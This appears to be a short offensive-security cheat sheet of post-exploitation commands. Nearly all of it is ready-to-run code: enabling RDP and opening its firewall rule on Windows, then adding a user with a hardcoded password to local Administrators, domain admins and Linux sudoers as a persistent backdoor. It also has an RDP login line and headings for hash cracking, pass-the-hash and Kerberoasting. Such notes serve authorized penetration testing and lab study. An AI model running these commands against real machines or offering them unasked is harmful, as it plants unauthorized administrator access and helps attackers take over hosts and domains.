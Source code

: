 ### Enable RDP:
```powershell
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -Name "fDenyTSConnections" -Value 0
```
```powershell
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```
```powershell
Start-Service -Name TermService
```
	Check status:
```powershell
Get-Service -Name TermService
```

```bash
xfreerdp +clipboard /u:s0l0s0j4 /p:Password123! /v:192.168.13.37 
```
### Add User Windows:
```powershell
net user s0l0s0j4 Password123 /add
```
```powershell
net localgroup Administrators s0l0s0j4 /add
```
	Domain:
```powershell
net user s0l0s0j4 Password123 /add /domain
```
```powershell
net group "Domain Administrators" s0l0s0j4 /add /domain
```
### Add User Linux:
```
sudo adduser s0l0s0j4
```
```
sudo usermod -aG sudo s0l0s0j4
```
```
su s0l0s0j4
```
## Start Monitoring once access is established
[[pspy64]] 
- Displays executive I/O operations
## [[PowerShell]] 

## [[Pivoting]]  

### [[Cracking Hashes]]  
[[Hashcat]] [[JohnTheRipper]]
To find the mode:
```bash
hashcat -h | grep -i "ssh"
```
### [[Pass The Hash]] 
### [[Kerberoasting]] 
### [[AS-REP Roasting]]
